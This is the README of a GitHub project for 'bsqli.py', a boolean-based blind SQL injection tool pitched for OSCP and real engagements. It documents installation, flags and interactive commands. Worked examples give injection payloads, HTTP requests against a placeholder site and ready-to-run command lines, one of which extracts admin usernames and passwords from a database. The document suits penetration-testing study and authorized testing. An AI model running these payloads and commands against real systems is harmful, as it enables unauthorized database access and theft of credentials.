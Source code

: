 # bsqli.py
A nifty little boolean-based SQLi script for OSCP and real-life engagements.


## Install ##

This script requires Python 3.10+, rich, and prompt_toolkit.

```shell
pip install rich prompt_toolkit
```

## Usage ##

1. Manually craft a Boolean-Based Blind SQLi PoC. The request should contain
   an SQLi payload with a condition (e.g. 1=1). There should be distinct
   responses between true and false responses, either in the status code or
   responsse body.

2. Separate the SQLi payload (e.g. `' or '1'='1`) from the GET/POST params,
   and replace it with `{payload}`. Move your payload to the `--payload`
   argument. We do this to easily differentiate the request and payload.

3. Separate the condition (e.g. 1=1, 1=0) from the SQLi payload, and replace
   it with `{cond}`. This will be substituted with URL-encoded SQLi
   conditions to be boolean-tested.

4. Instruct the script on how to distinguish between TRUE and FALSE
   responses. Use the -bts, -bfs, -bttc, -bftc flags to do this.

5. Optionally, if there is an error response (neither TRUE/FALSE), we can
   instruct the script to ignore the response (and consider as NULL or '?')
   using the -bes, -betc, and -betn flags.
   
   This is useful if the server sporadically returns 500 due to a forbidden
   character, an internal SQL error, or rate-limiting (in which case, turn
   down the number of threads).

6. To debug, turn on verbosity (-vv) to print the payload and conditions
   being tested.

   
## Interface ##

Upon entering the CLI, you have some options.

1. Run pre-baked commands.

   ```
   sqli> v
   sqli> u
   ```

    - v: version
    - u: curent user
    - d: db name
    - h: host name
    - s: server name

2. Query table. This is a special pre-baked command which allows you to
   enumerate a table and their columns. This hasn't been optimised for
   different versions yet (as some versions have special functions which can
   expedite this process).

   ```
   sqli> t
   table> information_schema.tables
   col> table_name
   ```

   This essentially does a `SELECT table_name FROM
   information_schema.tables`, but with some scripting involved to
   calculate, say number of entries.

   Here's another example which allows you to exfiltrate multiple columns on each row in MySQL.

   ```
   sqli> t
   table> admin
   col> concat(id,0x7c,username,0x7c,password,0x7c,firstname,0x7c,lastname,0x7c,created_on)
   ```

3. Run a custom query.

   ```
   sqli> SELECT 1
   sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='admin'
   ```

We impose some length restrictions (e.g. we cast to a VARCHAR(2048), so
extra characters may be chopped off). Play around with SQL SUBSTRING
functions to work around this.


## Examples ##

Here are some examples based on real-life engagements.

### Case 1: Exploiting an Injection Point in GET Parameters ###

Observations:

- Victim runs on MySQL. (--dbms MySQL)
- Server returns a 200 status with XML containing `404` if the SQLi is
  false. (-bftc 404)
- The server also returns 200 if the SQLi is true, so we can't distinguish
  based on status code.

Request:

```http
GET /find.php?search=%25'%20AND%20(1=1)%20AND'1%25'%3d'1 HTTP/1.1
Host: vulnerable.site


```

Command:

```shell
python bsqli.py \
    -u 'http://vulnerable.site/find.php?search={payload}' \
    -X GET \
    --payload $'%\' AND {cond} AND \'1%\'=\'1' \
    --dbms MySQL \
    -bftc 404
```

### Case 2: Exploiting an Injection Point in a POST Form ###

Observations:

- Victim runs on SQLServer (--dbms SQLServer)
- Injection is in POST data (-X POST --data ...)
- The server is pretty beefy and can handle a larger number of threads
  (-t 32)
- The server returns 302 if the SQLi is successful. (-bts 302)
  We'll use this to determine if a query resulted in TRUE/FALSE.
- The server returns 500 if an error occurred (e.g. forbidden character,
  SQL error). (-bes 500)
  We'll use this to catch and discard false positives.

Request:

```http
POST / HTTP/1.1 Host: vulnerable.site Content-Length: ...
Content-Type: application/x-www-form-urlencoded

login=a&password='%20or%20(1=1)%20--%20
```

Command:

```shell
python bsqli.py \
    -u http://vulnerable.site/login.asp \
    -X POST \
    --data=$'login=a&password={payload}' \
    --payload=$'\' or {cond} -- ' \
    --dbms SQLServer \
    -t 32 \
    -bts 302 -bes 500
```
    
